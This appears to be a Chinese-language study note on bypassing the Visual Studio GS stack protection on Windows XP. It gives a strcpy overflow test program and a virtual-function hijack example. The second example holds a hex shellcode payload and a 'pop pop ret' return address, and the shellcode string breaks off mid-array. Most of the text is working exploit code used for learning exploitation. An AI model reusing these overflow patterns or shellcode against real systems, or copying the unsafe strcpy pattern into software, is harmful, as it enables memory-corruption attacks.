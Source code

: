 ## 利用未被保护的内存突破GS

> 测试环境：
>
> - Visual Studio 2008 Professional
> - Windows XP SP3

### 测试代码

```CPP
#include <string.h>
#include <tchar.h>

int vulfuction(char* str)
{
    char arry[4];
    strcpy(arry, str);
    return 1;
}

int _tmain(int argc, _TCHAR* argv[])
{
    char* str = "yeah, the function is without GS";
    vulfuction(str);
    return 0;
}
```

> 按理来说，valfunction不包含4字节以上的缓冲区，所以此函数的栈空间应该是不受保护的，但是实际测试的时候却是有保护的，此问题待解决

## 利用虚函数突破GS

> 只有函数在返回时才会检查栈，所以可以在函数返回前劫持流程

### 代码

```cpp
#include"string.h"

class GSVirtual {
public:
	void gsv(char * src)
	{
		char buf[200];
		strcpy(buf, src);
		vir();
	}

	virtual void vir(){}
};

int main()
{
	GSVirtual test;

	test.gsv(
		"\x72\x7A\x81\x7C" //address of "pop pop ret" 
		"\x1A\x20\x90\x90\x90\x90\x90\x90\xFC\x68\x6A\x0A\x38\x1E\x68\x63"
    	"\x89\xD1\x4F\x68\x32\x74\x91\x0C\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7"
		"\x04\x2B\xE3\x66\xBB\x33\x32\x53\x68\x75\x73\x65\x72\x54\x33\xD2"
		"\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B\x49\x1C\x8B\x09\x8B\x69\x08\xAD"
		"\x3D\x6A\x0A\x38\x1E\x75\x05\x95\xFF\x57\xF8\x95\x60\x8B\x45\x3C"
		"\x8B\x4C\x05\x78\x03\xCD\x8B\x59\x20\x03\xDD\x33\xFF\x47\x8B\x34"
		"\xBB\x03\xF5\x99\x0F\xBE\x06\x3A\xC4\x74\x08\xC1\xCA\x07\x03\xD0"
```